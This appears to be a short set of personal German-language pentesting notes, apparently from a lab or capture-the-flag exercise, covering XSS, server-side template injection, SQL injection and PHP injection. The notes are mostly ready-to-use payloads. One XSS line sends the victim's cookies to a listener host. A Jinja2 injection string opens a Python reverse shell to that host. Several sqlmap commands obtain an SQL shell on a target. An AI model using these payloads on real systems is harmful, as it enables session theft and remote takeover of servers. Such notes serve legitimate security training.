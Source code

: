 ### XSS
HTML Button onclick - JavaScript Click Event
https://www.freecodecamp.org/news/html-button-onclick-javascript-click-event-tutorial/

Je nachdem was disabled ist, onclick, onerror oder so.

lokal nc öffnen zum listen dann aufm Server XSS mit Javascript
`<img src=x onerror=this.src='http://10.166.0.226:6900/?c='+document.cookie>`
### Template Injection
Templateting Engine rausfinden und Googeln

Für Jinja: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.166.0.226\",6900));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

### SQL Injection
Cheat Sheet: https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
Startseite: https://book.hacktricks.xyz/pentesting-web/sql-injection
#### SQL Map
SQL Map Wizard starten
`sqlmap -u http://10.166.162.137/ --wizard"`

SQL Shell
`sqlmap -u http://10.166.162.137/ --level 3 --risk 3 --forms --sql-shell`

Not sure für was das war
`sqlmap -u http://10.166.162.137/ --dbms=SQLite --sql-shell --data "name=bernd&comment=sss" --answers="follow=Y"`

Guide: https://www.stationx.net/sqlmap-cheat-sheet/

### PHP Injection
joa PHP Code halt oder so